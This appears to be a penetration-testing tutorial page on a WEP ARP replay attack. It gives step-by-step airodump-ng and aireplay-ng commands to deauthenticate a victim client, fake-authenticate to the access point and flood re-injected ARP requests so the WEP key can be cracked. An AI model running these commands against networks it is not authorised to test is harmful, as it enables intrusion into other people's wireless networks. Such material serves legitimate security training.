 # ARP Replay Attack
> It's a famous technique to generate a lot of useful traffic (IVs) on a wireless network.

Sniff the network traffic

```sh
sudo airodump-ng -c <channel> -w wep_file wlan0mon
# Do not close this window
```

Make a [Deauthentication Attack](../Deauthentication%20Attack.md)

```sh
sudo aireplay-ng -0 10 -c <client_mac> -a <bssid> wlan0mon
# Do not close this window
```


- Step 1: Associate to the AP using Fake Authentication

```sh
sudo aireplay-ng -1 15 -a <bssid> -e <ssid> wlan0mon
# Do not close this window
```

**Troubleshooting: During a real attack, you can find that your adapter constantly receives deauthentication messages from the victim API. You can try this variation for picky APs**

```sh
sudo aireplay-ng -1 6000 -q 10 -o 1 -a <bssid> -e <ssid> wlan0mon
# Do not close this window
```

- Step 2: Listen for ARP requests sent by clients on the network.
 
```sh
sudo aireplay-ng -3 -b <bssid> wlan0mon
# Do not close this window
```

Note that this will not work if your STA is the only associated one!

- Step 3: After a few minutes, you should capture at least an ARP request

Now pinging a none existing IP from you victim client


- Step 4: Almost instantly aireplay-ng will start to re-inject the captured ARP request

- Step 5: Airodump-ng will show the increase in received data frames as you are flooding the API

Now [Crack the WEP key](./WEP%20Cracking.md)